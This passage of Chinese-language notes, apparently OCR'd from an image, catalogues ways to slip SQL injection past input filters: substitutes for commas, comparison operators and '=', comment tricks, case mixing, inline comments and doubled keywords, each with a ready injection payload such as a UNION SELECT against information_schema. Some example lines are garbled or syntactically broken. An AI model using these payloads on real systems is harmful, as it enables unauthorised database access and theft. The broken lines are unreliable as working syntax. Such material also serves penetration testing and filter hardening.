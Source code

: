 		闭合引号：加引号，注释，转义，宽字节注入
		转义逃逸单引号，形成一个查询内容，加or 1行程全真语句

4. 逗号绕过（使用from或者offset）：

		在使用盲注的时候，需要使用到substr(),mid(),limit。这些子句方法都需要使用到逗号。
		对于substr()和mid()这两个方法可以使用from to的方式来解决：
			select substr(database(0 from 1 for 1);
			select mid(database(0 from 1 for 1);
		使用join：
			union select 1,2     #等价于
			union select * from (select 1)a join (select 2)b
		使用like：
			select ascii(mid(user(),1,1))=80   #等价于
			select user() like 'r%'
		对于limit可以使用offset来绕过：
			select * from news limit 0,1
			# 等价于下面这条SQL语句
			select * from news limit 1 offset 0

5. 比较符号（<>）绕过（过滤了<>：sqlmap盲注经常使用<>，使用between的脚本）：

		使用greatest()、least（）：（前者返回最大值，后者返回最小值）
			同样是在使用盲注的时候，在使用二分查找的时候需要使用到比较操作符来进行查找。如果无法使用比较操作符，那么就需要使用到greatest来进行绕过了。
			最常见的一个盲注的sql语句：
				select * from users where id=1 and ascii(substr(database(),0,1))>64
			此时如果比较操作符被过滤，上面的盲注语句则无法使用,那么就可以使用greatest来代替比较操作符了。
			greatest(n1,n2,n3,...)函数返回输入参数(n1,n2,n3,...)的最大值。
			那么上面的这条sql语句可以使用greatest变为如下的子句:
				select * from users where id=1 and greatest(ascii(substr(database(),0,1)),64)=64

		使用between and：
			between a and b：返回a，b之间的数据，不包含b。
6. or and xor not绕过：
	
	and=&&  or=||   xor=|   not=!

7. 绕过注释符号（#，--(后面跟一个空格））过滤：

	id=1' union select 1,2,3||'1

　　最后的or '1闭合查询语句的最后的单引号，或者：
		id=1' union select 1,2,'3

8. =绕过：

	使用like 、rlike 、regexp、in、between或者 使用< 或者 >

9. 绕过union，select，where等：
	
	(1)使用注释符绕过：
	　　常用注释符：
			//，-- , /**/, #, --+, -- -, ;,%00,--a
	　　用法：
			U/**/ NION /**/ SE/**/ LECT /**/user，pwd from user
	(2)使用大小写绕过：
		id=-1'UnIoN/**/SeLeCT
	(3)内联注释绕过：
		id=-1'/*!UnIoN*/ SeLeCT 1,2,concat(/*!table_name*/) FrOM /*information_schema*/.tables /*!WHERE *//*!TaBlE_ScHeMa*/ like database()#
	(4)双关键字绕过（若删除掉第一个匹配的union就能绕过）：
		id=-1'UNIunionONSeLselectECT1,2,3–-
	(5) 通过+号拆解字符串绕过
		如 or ‘swords’ =‘sw’ +’ ords’ ；EXEC(‘IN’ +’ SERT INTO ‘+’ …..’ )
